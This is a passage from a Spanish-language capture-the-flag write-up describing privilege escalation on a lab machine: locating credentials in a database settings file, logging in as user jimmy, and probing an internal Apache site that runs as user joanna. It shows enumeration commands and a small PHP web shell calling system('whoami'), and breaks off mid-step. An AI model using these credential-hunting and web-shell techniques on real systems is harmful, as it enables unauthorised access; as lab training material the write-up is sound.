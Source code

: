 
Aqui no hemos podido entrar en los directorios de los usuarios, y en el directorio internal del `/var/www`. Hemos visto
quel directorio `/var/www/ona` era un link symbolico a `/opt/ona/www` y buscando por archivos conteniendo config en su nombre,
hemos caido en un fichero `database_settings.inc.php` que contiene credenciales.

```bash
grep "sh$" /etc/passwd
su jimmy
Password: 
```

Hemos podido conectarnos como el usuario **jimmy** pero la flag no esta en su directorio de usuario. Parece que tenemos que convertirnos
en el usuario **joanna**.

```bash
id
```

Aqui vemos quel usuario es parte del grupo **internal**. Miramos lo que hay en el directorio `/var/www/internal`

```bash
cd /var/www/internal
ls -la
cat main.php
```

Vemos que en la web de internal se podria ver el id_rsa de joanna. Miramos la configuracion de esta web

```bash
cd /etc/apache2/sites-available
cat internal.conf
```

Aqui vemos que hay una web montada en local por el puerto 52846. Lo mas interesante aqui es quel usuario joanna a sido asignada
como AssignUserID de este servicio. Intentamos comprometer este servicio, directamente desde la maquina victima.

```bash
cd /var/www/internal
curl localhost:52846
```

Aqui vemos que podemos acceder a la web internal.

1. creamos un nuevo fichero s4vishell.php

    ```php
    <?php
        system("whoami");
    ?>
    ```

1. lanzamos una peticion get a este fichero
